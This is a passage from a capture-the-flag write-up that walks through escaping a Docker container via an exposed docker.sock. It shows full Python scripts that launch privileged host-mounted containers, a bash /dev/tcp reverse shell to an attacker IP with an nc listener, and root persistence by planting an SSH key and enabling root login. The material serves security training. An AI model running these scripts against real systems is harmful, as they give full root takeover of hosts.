    f"GET /containers/{container_id}/logs?stdout=1&stderr=1 HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n\r\n"
)

print(request(logs_req))
```

```
# python3 - << 'EOF'
import socket, json, re

def request(payload):
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect("/var/run/docker.sock")
    s.send(payload.encode())
    data = b""
    while True:
        chunk = > > > > > > > > > s.recv(4096)
        if not chunk:
            break
        data += chunk
    s.close()
    return data.decode(errors="ignore")

payload = json.dumps({
    "Image": "dls-backup:1.0",
    "Cmd": ["ls", "-lah", "/host/root"],
    "HostConfig": {
        "Binds": ["/:/host"],
        "Privileged": True
    }
})

req = (
    "POST /containers/create HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n"
    "Content-Type: application/json\r\n"
    f"Content-Length: {len(payload)}\r\n\r\n"
    f"{payload}"
)

resp = request(req)
print(resp)

container_id = re.search(r'"Id":"([^"]+)"', resp).group(1)

start_req = (
    f"POST /containers/{container_id}/start HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n\r\n"
)

print(request(start_req))

logs_req = (
    f"GET /containers/{container_id}/logs?stdout=1&stderr=1 HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n\r\n"
)

print(request(logs_req))
EOF> > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > 
HTTP/1.1 201 Created
Api-Version: 1.45
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/26.1.5+dfsg1 (linux)
Date: Wed, 25 Feb 2026 22:33:57 GMT
Content-Length: 88
Connection: close

{"Id":"29f9e41d01d5641b073b5597173e426f70f059b27af05ba9bf4bc5e5208fcb37","Warnings":[]}

HTTP/1.1 204 No Content
Api-Version: 1.45
Docker-Experimental: false
Ostype: linux
Server: Docker/26.1.5+dfsg1 (linux)
Date: Wed, 25 Feb 2026 22:33:58 GMT
Connection: close


HTTP/1.1 200 OK
Api-Version: 1.45
Content-Type: application/vnd.docker.multiplexed-stream
Docker-Experimental: false
Ostype: linux
Server: Docker/26.1.5+dfsg1 (linux)
Date: Wed, 25 Feb 2026 22:33:58 GMT
Connection: close
Transfer-Encoding: chunked

12

total 40K

34
,drwx------  6 root root 4.0K Feb 25 20:13 .

35
-drwxr-xr-x 19 root root 4.0K Feb 25 20:03 ..

40
8-rw-------  1 root root   70 Feb 25 22:20 .bash_history

3a
2-rw-r--r--  1 root root  607 Jan  2 12:35 .bashrc

39
1drwx------  2 root root 4.0K Feb 25 20:05 .cache

3a
2drwx------  3 root root 4.0K Feb 25 20:12 .docker

39
1drwxr-xr-x  3 root root 4.0K Feb 25 20:12 .local

3b
3-rw-r--r--  1 root root  132 Jan  2 12:35 .profile

37
/drwx------  2 root root 4.0K Feb 25 19:55 .ssh

3b
3-rw-------  1 root root   49 Feb 25 20:13 flag.txt

0
```

### Container Pivot

With host command execution through the created container confirmed, we can obtain a reverse shell within the newly created container with the host file system mounted and read the flag.

```python
import socket, json, re

IP = "10.10.1.27"
PORT = 8000

def request(payload):
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect("/var/run/docker.sock")
    s.send(payload.encode())
    data = b""
    while True:
        chunk = s.recv(4096)
        if not chunk:
            break
        data += chunk
    s.close()
    return data.decode(errors="ignore")

rev = f"bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'"

payload = json.dumps({
    "Image": "dls-backup:1.0",
    "Cmd": ["chroot", "/host", "/bin/bash", "-c", rev],
    "HostConfig": {
        "Binds": ["/:/host"],
        "Privileged": True
    }
})

req = (
    "POST /containers/create HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n"
    "Content-Type: application/json\r\n"
    f"Content-Length: {len(payload)}\r\n\r\n"
    f"{payload}"
)

resp = request(req)
print(resp)

if "201 Created" not in resp:
    exit()

container_id = re.search(r'"Id":"([^"]+)"', resp).group(1)

start_req = (
    f"POST /containers/{container_id}/start HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n\r\n"
)

print(request(start_req))
```

```
# python3 - << 'EOF'
import socket, json, re

IP = "10.10.1.27"
PORT = 8000

def request(payload):
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect("/var/run/docker.sock")
    s.send(payload.encode())
    data = b""
    while True:
        chunk = s.recv(4096)
        if not chunk:
            break
        data += chunk
    s.close()
    return data.decode(errors="ignore")

rev = f"bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'"

payload = json.dumps({
    "Image": "dls-backup:1.0",
    "Cmd": ["chroot", "/host", "/bin/bash", "-c", rev],
    "HostConfig": {
        "Binds": ["/:/host"],
        "Privileged": True
    }
})

req = (
    "POST /containers/create HTTP/1.1\r\n"
    > "Host: localhost\r\n"
    "Connection: close\r\n"
    "Content-Type: application/json\r\n"
    f"Content-Length: {len(payload)}\r\n\r\n"
    f"{payl> oad}"
)

resp = request(req)
print(resp)

if "201 Created" not in resp:
    exit()

c> ontainer_id = re.search(r'"Id":"([^"]+)"', resp).group(1)

start_req = (
    f"POST /containers/{contain> er_id}/start HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n\r\n"
)

print(request(start_r> eq))
EOF> > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > 
HTTP/1.1 201 Created
Api-Version: 1.45
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/26.1.5+dfsg1 (linux)
Date: Wed, 25 Feb 2026 22:35:54 GMT
Content-Length: 88
Connection: close

{"Id":"72b56073c8dcadc1bf28ece7b9663e761db68a8fd70d2b96c66448ab53c7a8de","Warnings":[]}

HTTP/1.1 204 No Content
Api-Version: 1.45
Docker-Experimental: false
Ostype: linux
Server: Docker/26.1.5+dfsg1 (linux)
Date: Wed, 25 Feb 2026 22:35:54 GMT
Connection: close
```

```
CTRL+ALT+PWN@ZTW26$ rlwrap nc -nlvp 8000
listening on [any] 8000 ...
connect to [10.10.1.27] from (UNKNOWN) [10.10.1.11] 60218
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

root@72b56073c8dc:/# ls -lah /root
ls -lah /root
total 40K
drwx------  6 root root 4.0K Feb 25 15:13 .
drwxr-xr-x 19 root root 4.0K Feb 25 15:03 ..
-rw-------  1 root root   70 Feb 25 17:20 .bash_history
-rw-r--r--  1 root root  607 Jan  2 07:35 .bashrc
drwx------  2 root root 4.0K Feb 25 15:05 .cache
drwx------  3 root root 4.0K Feb 25 15:12 .docker
drwxr-xr-x  3 root root 4.0K Feb 25 15:12 .local
-rw-r--r--  1 root root  132 Jan  2 07:35 .profile
drwx------  2 root root 4.0K Feb 25 14:55 .ssh
-rw-------  1 root root   49 Feb 25 15:13 flag.txt

root@72b56073c8dc:/# cat /root/flag.txt
cat /root/flag.txt
CTRLALTPWN{Z3JlZXRpbmdzX2Zyb21fdGhyZWF0X2ludGVs}
```

### BONUS: SSH Access as Root

Even though we have obtained the flag, we are still within a container. To fully escape to the host, we can add our public key into `/root/.ssh/authorized_keys`.

```
root@72b56073c8dc:/# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINE5JGQPuOW4XXCRCwSDSZo5V/FyuFLo8FcauA6Qei0B" > /root/.ssh/authorized_keys
```

We can now adjust the SSH config to permit root logins.

```
root@72b56073c8dc:/# sudo sed -i 's/^#\?PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config
```

To successfully SSH in as `root` now, we will need to trigger a restart of the SSH service on the host. This can be done with another container creation through the docker socket using python.

```python
import socket, json, re

def request(payload):
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect("/var/run/docker.sock")
    s.send(payload.encode())
    data = b""
    while True:
        chunk = s.recv(4096)
        if not chunk:
            break
        data += chunk
    s.close()
    return data.decode(errors="ignore")

payload = json.dumps({
    "Image": "dls-backup:1.0",
    "Cmd": [
        "chroot", "/host", "sh", "-c",
        "if [ -f /etc/init.d/ssh ]; then /etc/init.d/ssh restart; "
        "elif command -v systemctl >/dev/null 2>&1; then systemctl restart ssh; "
        "else kill -HUP $(pidof sshd); fi"
    ],
    "HostConfig": {
        "Binds": ["/:/host"],
        "Privileged": True,
        "PidMode": "host"
    }
})

req = (
    "POST /containers/create HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n"
    "Content-Type: application/json\r\n"
    f"Content-Length: {len(payload)}\r\n\r\n"
    f"{payload}"
)

resp = request(req)
print(resp)

container_id = re.search(r'"Id":"([^"]+)"', resp).group(1)

start_req = (
    f"POST /containers/{container_id}/start HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n\r\n"
)

print(request(start_req))

logs_req = (
    f"GET /containers/{container_id}/logs?stdout=1&stderr=1 HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n\r\n"
)

print(request(logs_req))
```

```
# python3 - << 'EOF'
import socket, json, re

def request(payload):
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect("/var/run/docker.sock")
    s.send(payload.encode())
    data = b""
    while True:
        chunk = s.recv(4096)
        if not chunk:
            break
        data += chunk
    s.close()
    return data.decode(errors="ignore")

payload = json.dumps({
    "Image": "dls-backup:1.0",
    "Cmd": [
        "chroot", "/host", "sh", "-c",
        "if [ -f /etc/init.d/ssh ]; then /etc/init.d/ssh restart; "
        "elif command -v systemctl >/dev/null 2>&1; then systemctl restart ssh; "
        "else kill -HUP $(pidof sshd); fi"
    ],
    "HostConfig": {
        "Binds": ["/:/host> "],
        "Privileged": True,
        "PidMode": "host"
    }
})

req = (
    "POST /containers/create HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n"
   >  "Content-Type: application/json\r\n"
    f"Content-Length: {len(payload)}\r\n\r\n"
    f"{payload}"
> )

resp = request(req)
print(resp)

container_id = re.search(r'"Id":"([^"]+)"', resp).group(1)

s> tart_req = (
    f"POST /containers/{container_id}/start HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connec> tion: close\r\n\r\n"
)

print(request(start_req))

logs_req = (
    f"GET /containers/{container_> id}/logs?stdout=1&stderr=1 HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Connection: close\r\n\r\n> "
)

print(request(logs_req))
EOF> > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > 
HTTP/1.1 201 Created
Api-Version: 1.45
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/26.1.5+dfsg1 (linux)
Date: Fri, 27 Feb 2026 18:31:39 GMT
Content-Length: 88
Connection: close

{"Id":"9f3d7d040c4b7b394fd29b731055c4cd0cde146aa6dd1b55d6ef17797285ce4a","Warnings":[]}

HTTP/1.1 204 No Content
Api-Version: 1.45
Docker-Experimental: false
Ostype: linux
Server: Docker/26.1.5+dfsg1 (linux)
Date: Fri, 27 Feb 2026 18:31:39 GMT
Connection: close


HTTP/1.1 200 OK
Api-Version: 1.45
Content-Type: application/vnd.docker.multiplexed-stream
Docker-Experimental: false
Ostype: linux
Server: Docker/26.1.5+dfsg1 (linux)
Date: Fri, 27 Feb 2026 18:31:39 GMT
Connection: close
Transfer-Encoding: chunked

0
```

We can now SSH into the host as `root`. No more containers!

```
CTRL+ALT+PWN@ZTW26$ ssh -i ~/.ssh/id_ed25519 root@threa7.com

Linux CAP 6.12.73+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.73-1 (2026-02-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

root@CAP:~# id
uid=0(root) gid=0(root) groups=0(root)

root@CAP:~# cat /root/flag.txt 
CTRLALTPWN{Z3JlZXRpbmdzX2Zyb21fdGhyZWF0X2ludGVs}
```


